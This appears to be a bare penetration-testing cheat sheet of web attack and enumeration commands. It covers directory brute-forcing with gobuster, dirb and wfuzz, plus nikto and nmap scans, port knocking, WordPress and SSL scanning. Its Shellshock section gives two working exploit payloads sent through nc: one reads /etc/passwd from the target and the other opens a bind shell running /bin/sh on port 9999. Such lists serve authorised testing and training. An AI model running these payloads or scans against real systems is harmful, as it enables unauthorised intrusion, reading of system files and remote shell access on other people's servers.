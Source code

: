## Search for folders with gobuster

gobuster -w /usr/share/wordlists/dirb/common.txt -u $ip

# Dirb

## Dirb - Directory brute force finding using a dictionary file
dirb http://$ip/ wordlist.dict dirb <http://vm/>

## Dirb against a proxy
dirb [http://$ip/](http://172.16.0.19/) -p $ip:3129

# Nikto 
nikto -h $ip
nikto -useproxy http://$ip:3128 -h $ip

# SHELLSHOCK

echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80



# NMAP 

## Test for shellshock
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip

## HTTP Enumeration with NMAP
nmap --script=http-enum -p80 -n $ip/24

## Nmap Check the server methods
nmap --script http-methods --script-args http-methods.url-path='/test' $ip

## Options from a web server
curl -vX OPTIONS vm/test

# Uniscan
uniscan -qweds -u <http://vm/>

# WFuzz

wfuzz -c -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?FUZZ=test
wfuzz -c --hw 114 -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?page=FUZZ
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt "$ip:60080/?page=mailer&mail=FUZZ"
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 404 $ip/FUZZ
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt -R 3 --sc 200 $ip/FUZZ


# Port Knocking
Open a service using a port knock (Secured with Knockd)

for x in 7000 8000 9000; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x server_ip_address; done

# Wordpress Scanning
wpscan --url $ip/blog --proxy $ip:3129

# SSL Testing
./testssl.sh -e -E -f -p -y -Y -S -P -c -H -U $ip | aha > OUTPUT-FILE.html






